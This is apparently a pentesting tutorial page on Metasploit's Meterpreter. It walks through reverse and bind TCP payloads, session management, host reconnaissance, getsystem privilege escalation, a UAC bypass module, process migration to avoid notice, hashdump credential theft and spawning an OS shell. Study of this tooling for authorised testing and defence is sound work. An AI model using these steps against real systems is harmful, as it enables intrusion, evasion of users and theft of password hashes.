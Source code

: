 # Meterpreter

Meterpreter is a very powerful shell which runs on Anroid, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services

It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more

To list all possible Meterpreter payloads in MSFConsole:

```
search meterpreter
```

To choose a payload when attacking a Windows machine:

```
set payload windows/meterpreter/reverse_tcp
```

## Bind and Reverse

Meterpreter can both wait for a connection on the target machine or connect back to the attacker machine

Most used configurations are `bind_tcp` and `reverse_tcp`

* **`bind_tcp`** runs a server process on the target machine that waits for connections from the attacker machine
* **`reverse_tcp`** performs a TCP connection back to the attacker machine which could help evade firewall rules

```
set payload windows/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp
set payload windows/meterpreter/bind_tcp
set payload java/meterpreter/bind_tcp
```

## Sessions

A single instance of MSFConsole can host multiple Meterpreter sessions which means you can instance multiple shells on your targets and switch between them

To switch from a Meterpreter session to the console

```
background
```

To list currently opened sessions

```
sessions -l
```

To resume a background session

```
sessions -i <id>
```

## Information Gathering

You can perform information gathering on the exploited machine and the network it is attached to

You can retrieve:

* Information about the machine and the OS
* The network configuration in use
* The routing table of the compromised host
* Information about the user running the exploited process

### System Information

To retrieve information about the exploited machine: name, OS, architecture, system language and the Meterpreter version running:

```
sysinfo
```

![](<../../../../.gitbook/assets/image (28) (1) (1).png>)

### Network configuration

To print the network configuration:

```
ifconfig
```

![](<../../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1).png>)

### Routing information

```
route
```

![](<../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1).png>)

### Current User

```
getuid
```

![](<../../../../.gitbook/assets/image (31) (1) (1).png>)

### Privilege Escalation

To just current privileges on Windows

```
run post/windows/gather/win_privs
```

![](<../../../../.gitbook/assets/image (33) (1) (1) (1) (1).png>)

You can use `getsystem` if the owner of the process does not have high privileges on the victim system

```
getsystem
```

![](<../../../../.gitbook/assets/image (11) (1) (1) (1).png>)

### Bypassing UAC

{% hint style="info" %}
In modern Windows operating systems, the User Account Control policy prevent privilege escalation
{% endhint %}

![](<../../../../.gitbook/assets/image (25) (1) (1) (1) (1).png>)

You can bypass that restriction by u sing the `bypassuac` module

```
use exploit/windows/local/bypassuac
```

Then you have to set the session where you want to bypass UAC

```
set session <id>
```

Launch the exploit to get a new Meterpreter session with the UAC policy disabled and use `getsystem`

![](<../../../../.gitbook/assets/image (10) (1) (1).png>)

## Staying Stealthy

Checking pid with `getpid` shows the process you're currently running on

As you can imagine, this process name is not very stealthy and is also suspicious

A user checking their process list may notice something strange on their machine

![](<../../../../.gitbook/assets/image (35) (1) (1) (1) (1).png>)

Therefore, in order to remain stealthy, we can use the `migrate` command to attach our session on a different process

We have to choose a process with the same privileges we currently have

```
ps -U SYSTEM
migrate <PID> //simply using migrate should work as well if you don't want to be specific
```

## Dumping the Password Database

```
use post/windows/gather/hashdump
set session <id>
exploit
```

![](<../../../../.gitbook/assets/image (16) (1) (1) (1) (1).png>)

## Exploring the Victim System

You can navigate the hard drive by using Unix-like shell commands

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1) (1).png>)

## Uploading and Downloading

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1).png>)

## Running an OS Shell

You can run a standard OS shell

```
shell
```

![](<../../../../.gitbook/assets/image (26) (1) (1) (1) (1).png>)
